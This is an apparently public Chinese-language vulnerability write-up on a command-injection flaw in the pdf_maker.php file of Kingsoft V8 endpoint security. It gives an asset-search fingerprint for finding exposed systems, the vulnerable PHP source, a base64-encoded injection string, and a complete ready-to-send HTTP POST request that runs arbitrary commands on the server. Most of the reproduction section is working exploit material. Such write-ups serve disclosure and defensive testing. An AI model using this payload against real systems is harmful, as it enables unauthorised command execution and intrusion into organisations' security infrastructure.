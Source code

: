 # 金山 V8 终端安全系统 pdf_maker.php 命令执行漏洞

## 漏洞描述

金山 V8 终端安全系统 pdf_maker.php 存在命令执行漏洞，由于没有过滤危险字符，导致构造特殊字符即可进行命令拼接执行任意命令

## 漏洞影响

<a-checkbox checked>金山 V8 终端安全系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="猎鹰安全-金山V8+终端安全系统"</a-checkbox></br>

## 漏洞复现

存在漏洞的文件为

```plain
Kingsoft\Security Manager\SystemCenter\Console\inter\pdf_maker.php
```

```php
<?php
require_once (dirname(__FILE__)."\\common\\HTTPrequest_SCpost.php");
/*
{
   "kptl" :
{
"set_exportpdf_cmd" :
    {
    "url" : "http://xxx.xxx.xxx.xxx/report/system/main.php?userSession=5784727B-7AEA-4EFE-B0CB-DDD6DA1CABD3&guid=1AC380D9-                580C-49A8-B6EC-787CF50FA928&VHierarchyID=ADMIN",
    "fileName":"test.pdf"
    }
}
*/
	
	
	//$post = file_get_contents("php://input");
	
	/*
	$post = array("kptl"=>
			array("set_exportpdf_cmd"=>array(
				"url"=>"http://xxx.xxx.xxx.xxx/report/system/main.php?userSession=5784727B-7AEA-4EFE-B0CB-DDD6DA1CABD3&guid=1AC380D9-580C-49A8-B6EC-787CF50FA928&VHierarchyID=ADMIN",
				"fileName"=>"test1234.pdf"
				)
			));
			*/
			
	
			
	
	

	$url = $_POST["url"];
	$fileName =  $_POST["fileName"];
	$batName=$fileName;
	if ($url == null || $fileName == null)
	{
		$return["nResult"] = __LINE__;
		echo json_encode($return,JSON_UNESCAPED_UNICODE);
		return ;
	}
	
	$url = base64_decode($url);
	$nameStr = base64_decode($fileName).date("Y-m-d").".pdf";
	$fileName="..\\htmltopdf\\".$nameStr;

	system('mkdir ..\\htmltopdf');

	
	$cmd = '..\\..\\wkhtmltopdf.exe "'.$url.'" '.$fileName;
	if (getApacheVersion()>=24) { //apache 2.4 php 7 版本 只能在  bat中运行
		$cmd =" del ".$fileName;

		exec($cmd);
		$url_= str_replace('%','%%', $url);
		$cmd = '..\\..\\wkhtmltopdf.exe "'.$url_.'" '.$fileName;
		$batName ="exec_wkhtmltopdf.bat";
		$myfile = fopen($batName , "w");
		//$cmd =iconv("UTF-8", "gbk", $cmd );
		fwrite($myfile, $cmd);
		fclose($myfile);
		$cmd =$batName ;
		exec($cmd);
		$cmd =" del ".$batName;
		exec($cmd);
    }else
    {
	system($cmd);
    }
	// echo $url;
	$return = array("nResult" => "0","fileName" =>$nameStr,"url"=>$url);
	echo json_encode($return,JSON_UNESCAPED_UNICODE);
	
?>
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313111023403.png)



这里传入 base64加密的拼接命令即可执行任意命令

```plain
"|| ipconfig || --base64--> url=IiB8fCBpcGNvbmZpZyB8fA==&fileName=xxx
```

```plain
POST /inter/pdf_maker.php HTTP/1.1
Host: 
Content-Length: 45
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.128 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer:
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=noei1ghcv9rqgp58jf79991n04

url=IiB8fCBpcGNvbmZpZyB8fA%3D%3D&fileName=xxx
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313111022840.png)



## 